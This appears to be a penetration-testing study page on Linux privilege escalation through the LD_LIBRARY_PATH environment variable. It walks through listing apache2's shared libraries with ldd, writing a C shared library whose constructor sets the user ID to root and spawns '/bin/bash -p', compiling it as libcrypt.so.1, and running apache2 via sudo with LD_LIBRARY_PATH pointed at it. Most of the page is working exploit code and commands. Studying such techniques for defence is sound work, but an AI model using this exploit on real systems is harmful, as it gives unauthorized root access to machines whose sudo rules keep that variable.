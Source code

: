 # LD\_LIBRARY\_PATH

The LD\_LIBRARY\_PATH environment variable contains a set of directories where shared libraries are searched for first.

The ldd command can be used to print the shared libraries used by a program:

#### `ldd /usr/sbin/apache2`

By creating a shared library with the same name as one used by a program, and setting LD\_LIBRARY\_PATH to its parent directory, the program will load our shared library instead.

Run ldd against the apache2 program file:

#### `ldd /usr/sbin/apache2`

![](<../../../../.gitbook/assets/1 (21).png>)

Hijacking shared objects using this method is hit or miss. Choose one from the list and try it (libcrypt.so.1 seems to work well).

Create a file (library\_path.c) with the following contents:

#### `#include <stdio.h>` `#include <stdlib.h>` `static void hijack() __attribute__((constructor));` `void hijack() {` `unsetenv("LD_LIBRARY_PATH");` `setresuid(0,0,0);` `system("/bin/bash -p");` `}` \`\`

Compile library\_path.c into libcrypt.so.1:

#### `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`

Run apache2 using sudo, while setting the LD\_LIBRARY\_PATH environment variable to the current path (where we compiled library\_path.c):

#### `sudo LD_LIBRARY_PATH=. apache2`

![](../../../../.gitbook/assets/env4.png)

